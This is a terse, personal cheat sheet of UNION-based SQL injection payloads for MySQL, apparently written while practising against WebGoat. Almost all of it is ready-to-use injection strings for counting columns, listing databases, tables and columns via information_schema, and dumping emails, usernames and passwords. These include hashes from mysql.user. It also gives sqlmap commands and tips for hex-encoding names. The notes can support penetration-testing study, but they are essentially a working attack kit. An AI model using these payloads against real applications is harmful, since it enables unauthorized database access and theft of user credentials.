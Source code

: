 SQL Injection UNION Based
=========================

Notes
-----
```
-- requires a space at the end (--+) !!!!!!!!!!!!!!!!!!!!
Depending on identified injection technique use "#" or "--+" for comment.
Should use "--+" when atttack in the URL

Nice cheat sheets
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

It is possible to use ASCII HEX encoding for some of the variable names. (Use Burp decoder/encoder)
Must be prefixed with "0x"
When using ASCII HEX, quotes are not required. Do not use them...
"databasename" when encoded would become "0x64617461626173656e616d65"
"tablename" when encoded would become "0x7461626c656e616d65"

Use sqlmap -v 7 to gather more details
sqlmap -r ./xxxxx.txt --batch -v 7 > ./yyyyyyyyyy.txt
-t TRAFFICFILE ?????????
Review results............

Add comments at end of parameter to help identify SQLInjection
Valid request returns no error
theUserName=fzappa
Returns Error
theUserName=fzappa'
Returns No Error (potentially vulnerable)
fzappa--+ORDER+BY+1
```




Get Number of Columns First (Required for further attacks)
----------------------------------------------------------
```sql
--  Method 1
-- Increment "number" by 1 and monitor response for different responses or errors.
-- If the error is returned on "'+ORDER+BY+4#" then the table has 3 columns. 
'+ORDER+BY+1#
'+ORDER+BY+2#
'+ORDER+BY+3#
'+ORDER+BY+4#
'+ORDER+BY+5#
'+ORDER+BY+?............#


# Method 2
# Increment ",NULL" by adding additional ",NULL" and monitor response for different responses or errors.
# If the error is returned on "'+UNION SELECT NULL,NULL,NULL,NULL#" then the table has 3 columns. 
'+UNION+SELECT+NULL#
'+UNION+SELECT+NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL........#
```



Retrieve All Database Names
---------------------------
```sql
'UNION+ALL+SELECT+NULL,NULL,concat(schema_name)+FROM+information_schema.schemata#
```



Get Current Database Name and Additional Information
----------------------------------------------------
```sql
'+UNION+ALL+SELECT+database(),NULL,NULL#
@@datadir
@@hostname
@@version
current_role()
database()
found_rows
row_count()
schema()
session_user()
system_user()
user()
version()
```



Get Tables in Database
----------------------
```sql
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,concat(TABLE_NAME)+FROM+information_schema.TABLES+WHERE+table_schema='webgoat_coins'#
```


Get Columns When Table Name is Known
------------------------------------
```sql
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,CONCAT(column_name,'+',column_type)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='products'+AND+table_schema='webgoat_coins'#
```


Get Data from Columns MORE NOTES NEEDED 
---------------------
```sql
ADD CONCAT technique!!!!!!!!!!!!!!!!!!!
INJECTION MUST RESPECT THE NUMBER OF COLUMNS. USE NULL IF REQUIRED.

'+UNION+SELECT+NULL,email,+password+FROM+customerlogin#
'+UNION+SELECT+answer,email,+password+FROM+customerlogin#


#############TESTING NOTES########################
Get data from other tables
'+UNION+SELECT+username,+password+FROM+users+

Retrieving multiple values within a single column - useful if the application only returns a single column in the response.
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```




Get Data From Other Databases
-----------------------------
```
# Need to know the dbname, tablename, and column names.
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,column1,0x3a,column2,0x29)+FROM+dbname.tablename#
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,user,0x3a,password,0x29)+FROM+mysql.user#

```
